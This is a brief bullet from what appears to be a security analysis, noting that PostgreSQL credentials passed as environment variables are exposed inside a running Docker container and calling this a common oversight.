* **Analysis:** Environment variables, such as **database credentials** (`POSTGRES_USER`, `POSTGRES_PASSWORD`), are exposed within the running Docker container. This is a common security oversight that provides attackers with internal secrets.
